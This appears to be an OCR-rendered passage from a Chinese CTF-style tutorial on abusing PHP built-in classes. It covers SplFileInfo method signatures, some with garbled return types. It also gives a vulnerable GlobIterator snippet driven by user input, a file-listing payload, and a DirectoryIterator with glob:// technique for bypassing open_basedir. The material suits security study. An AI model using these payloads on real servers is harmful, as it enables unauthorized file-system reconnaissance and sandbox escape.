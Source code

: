 ```bash
public SplFileInfo::isLink(): boolvoid
public SplFileInfo::isReadable(): boolvoid
public SplFileInfo::isWritable(): boolvoid
public SplFileInfo::openFile(string $mode = "r", bool $useIncludePath = false, ?resource $context = null): SplFileObject
public SplFileInfo::setFileClass(string $class = SplFileObject::class): void
public SplFileInfo::setInfoClass(string $class = SplFileInfo::class): void
public SplFileInfo::__toString(): stringvoid
}
```

GlobIterator 类与前面两个类的区别是，可以直接通过模式匹配寻找文件路径，而前两个类是生成一个指定目录的迭代器，之后利用 echo 调用内置类中的\_\_tostring 方法从而调用第一个文件名的

```bash
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f);
}
?>
```

```bash
payload:
$a = new GlobIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

## Trick->绕过 open\_basedir 限制

### 遍历目录

#### DirectoryIterator 类 + glob://协议

```bash
<?php
ini_get('open_basedir');
$dir_array = array();

$dir = new DirectoryIterator('glob:///*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

$dir = new DirectoryIterator('glob:///.*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.' ';
}
?>
```
